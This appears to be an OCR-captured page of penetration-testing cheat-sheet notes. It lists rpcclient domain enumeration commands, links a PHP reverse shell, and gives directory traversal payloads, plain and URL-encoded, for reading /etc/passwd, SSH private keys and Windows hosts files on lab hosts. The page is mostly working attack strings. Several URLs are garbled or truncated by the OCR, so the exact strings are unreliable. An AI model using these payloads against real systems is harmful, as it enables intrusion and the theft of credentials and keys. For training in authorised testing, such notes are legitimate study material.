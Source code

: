 ```bash
enumdomgroups
querygroup <GROUP_RID>  #get rid from previous command
querydispinfo  #description of all users
netshareenum  #Share enumeration, this only comes up if the current user we're logged in has permission
netshareenumall
lsaenumsid  #SID of all users
```

### Web Attacks

💡 Cross-platform PHP reverse shell: [https://github.com/ivan-sincek/php-reverse-](https://github.com/ivan-sincek/php-reverse-)

#### Directory Traversal

```bash
cat /etc/passwd  #displaying content through absolute path
cat ../../../etc/passwd  #relative path
```

* if the pwd is `/var/log/` then in order to view the `/etc/passwd` it will be like this

```bash
cat ../../etc/passwd
```

* In web it should be exploited like this, find a parameters and test it out

```
[http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd?page=../../../etc/passwd](http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd?page=../../../etc/passwd)
#check for id_rsa, id_ecdsa
```

* If the output is not getting formatted properly then,

```bash
curl [http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/pas<br>•?page=../../../etc/passwd](http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/pas<br>•?page=../../../etc/passwd)
```

* For windows

```
[http://192.168.221.193:3000/public/plugins/alertlist/../../../../../../../../Users/instal<br>•?page=../../../windows/system32/drivers/etc/hosts](http://192.168.221.193:3000/public/plugins/alertlist/../../../../../../../../Users/instal<br>•?page=../../../windows/system32/drivers/etc/hosts)
```

**URL Encoding**

Sometimes it doesn't show if we try path, then we need to encode them

```bash
curl [http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd<br>•?page=..%2F..%2F..%2Fetc%2Fpasswd](http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd<br>•?page=..%2F..%2F..%2Fetc%2Fpasswd)
```
